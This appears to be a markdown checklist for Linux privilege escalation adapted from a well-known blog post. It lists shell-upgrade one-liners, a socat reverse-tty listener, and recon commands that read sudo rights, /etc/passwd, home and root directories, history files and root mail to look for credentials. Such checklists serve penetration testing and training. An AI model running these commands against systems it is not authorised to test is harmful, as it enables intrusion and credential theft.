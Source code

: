 A checklist for linux privesc. Might be missing lots of things. Is mostly taken from https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Do you have a decent shell?
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")' 
echo os.system('/bin/bash') 
/bin/sh -i
```
To get tab completion working
```bash
ctrl+z
echo $TERM && tput lines && tput cols

stty raw -echo
fg

reset
export SHELL=bash 
export TERM=xterm-256color (screen when running tmux)
stty rows <num> columns <cols>
```
Or use Socat for a full reverse tty
```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```


###  Initial Recon
Start by checking the version and distro of the machine for possible kernel exploits, and also the sudo permissions of whatever account you have if possible.
```bash
lsb_release -a && uname -a 
cat /etc/issue
cat /etc/*-release
cat /proc/version
sudo -l
```
To do things quick, run the LinEnum script from Rebootuser.

https://github.com/rebootuser/LinEnum

Check for plaintext passwords with it
```bash
./LinEnum.sh -t -k password
```
What users have shells on the box?
```bash
grep -vE "nologin|false" /etc/passwd
```
Anything in users home directories or mail?
```bash
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
```
